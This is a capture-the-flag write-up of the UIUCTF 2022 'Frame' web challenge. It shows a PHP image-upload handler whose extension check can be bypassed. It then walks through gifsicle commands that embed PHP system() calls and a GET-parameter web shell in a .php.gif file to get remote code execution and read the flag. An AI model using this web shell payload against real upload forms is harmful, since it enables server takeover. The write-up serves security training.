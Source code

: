 # UIUCTF 2022 (web)

## Frame

### [source](https://github.com/GiongfNef/ChallFile/blob/main/UIUCTF2022/frame/handout.tar)

![chall](<../.gitbook/assets/image (6) (3).png>)

### Analysis

```
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
          if (isset($_POST["submit"])) {
            $allowed_extensions = array(".jpg", ".jpeg", ".png", ".gif");
            $filename = $_FILES["fileToUpload"]["name"];
            $tmpname = $_FILES["fileToUpload"]["tmp_name"];
            $target_file = "uploads/" . bin2hex(random_bytes(8)) . "-" .basename($filename);

            $has_extension = false;
            foreach ($allowed_extensions as $extension) {
              if (strpos(strtolower($filename), $extension) !== false) {
                $has_extension = true;
              }
            }
            
            if ($_FILES["fileToUpload"]["size"] < 2000000) {
              if (getimagesize($tmpname) && $has_extension) {
                if (move_uploaded_file($tmpname, $target_file)) {     
                  echo "<div id='frame'><img src='$target_file' alt='Your image failed to load :(' id='submission'></div>";
                } else {
                  echo "There was an error uploading your file. Please contact an admin.";
                }
              } else {
                echo "Your picture is not a picture and could not be framed.";
              }
            } else {
              echo "Your picture is too large for us to process.";
            }
          }
        ?>
```

* know that: $allowed\_extensions = array(".jpg", ".jpeg", ".png", ".gif"); -> we can use ".gif" extension file. Finding around and i got [<mark style="color:blue;">`this doc`</mark>](https://doddsecurity.com/94/remote-code-execution-in-the-avatars/)<mark style="color:blue;">``</mark>
* We can use `gifsicle`  to embedd PHP code that runs the Linux command into a malicious image named output.php.gif.

### Exploit

#### First way

* Firstly, we convert png file that we received from chall to gif file
* I have tried change file extension from png to gif but it doesn't work, of course.

![](<../.gitbook/assets/image (3) (3).png>)

* I convert by [online tool](https://cloudconvert.com/png-to-gif) and ... that works. After we that just use this command:

```
gifsicle < frame-1.gif --comment "<?php system('id'); ?>" > output.php.gif
```

* Upload the output gif to server:

![the path of our requesting](<../.gitbook/assets/image (9) (3).png>)

Go to that path and get some interesting things:

![](<../.gitbook/assets/image (1) (2) (2).png>)

* It works, try other commands to rce :

```
gifsicle < frame-1.gif --comment "<?php system('ls /'); ?>" > output.php.gif
```

![Here yah gooooo](<../.gitbook/assets/image (4) (3).png>)

* Now just use rce command and got the flag:

```
gifsicle < frame-1.gif --comment "<?php system('cd / && cat flag'); ?>" > output.php.gif
```

![](<../.gitbook/assets/image (2) (1) (2).png>)

flag in some confusing thing like this:

![](<../.gitbook/assets/image (1) (1) (2).png>)

#### Firstway but easier \~

```
gifsicle < frame-1.gif --comment '<?php echo system($_GET["command"]); ?>' > output.php.gif
```

Now we can rce ez by web shell

> /uploads/c654036b5974c786-output.php.gif?command=ls%20-a

![](<../.gitbook/assets/image (1) (1) (3).png>)



Thanks for reading. Have a good day :heart: !
